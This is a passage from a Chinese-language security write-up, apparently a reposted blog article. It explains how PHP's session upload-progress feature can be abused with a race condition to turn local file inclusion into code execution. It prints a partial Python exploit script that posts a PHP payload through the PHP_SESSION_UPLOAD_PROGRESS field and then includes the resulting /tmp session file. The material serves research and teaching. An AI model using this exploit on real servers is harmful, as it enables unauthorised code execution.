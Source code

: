 上述的两个方法，其实都没有解决本篇文章遇到的问题，毕竟Docker环境即不存在phpinfo也不存在Windows特性。

第三个方法也已经广为流传，PHP中可以通过session progress功能实现临时文件的写入。这种利用方式需要满足下面几个条件：

*   目标环境开启了`session.upload_progress.enable`选项
*   发送一个文件上传请求，其中包含一个文件表单和一个名字是`PHP_SESSION_UPLOAD_PROGRESS`的字段
*   请求的Cookie中包含Session ID

这个方法的原理是，PHP在开启了`session.upload_progress.enable`后（在包括Docker的大部分环境下默认是开启的），将会把用户上传文件的信息保存在Session中，而PHP的Session默认是保存在文件里的。

所以当攻击者发送满足上述条件的数据包时，就等于能够控制Session文件内容。

我们可以尝试发送满足上述条件的数据包来测试一下，但会发现虽然我们可以让PHP开启Session，从而在/tmp目录下遗留下Session文件，但这个文件内容是空的。

原因是，PHP中还有另外一个配置项`session.upload_progress.cleanup`，默认开启。在这个选项开启时，PHP会在上传请求被读取完成后自动清理掉这个Session，如果我们尝试把这个选项关闭，就可以读取到Session文件的内容了：

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/12/5811c0fb-c694-4fd4-b270-f1523a1f4afd.png?raw=true)
](https://www.leavesongs.com/media/attachment/2021/11/01/f328427d-cb91-4e7c-924c-0dacb8e34e8d.png)

> 注意的是，如果我们只上传一个文件，这里也是不会遗留下Session文件的，所以表单里必须有两个以上的文件上传。

所以，默认情况下，我们需要在Session文件被清理前利用它，这也会用到条件竞争（Race Condition）。

因为这里的Session文件名是可控的，所以相比于0x02的条件竞争，这个会简单很多。我写了一个小脚本来利用，几乎没有失败过：

`import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'

def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )

def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()

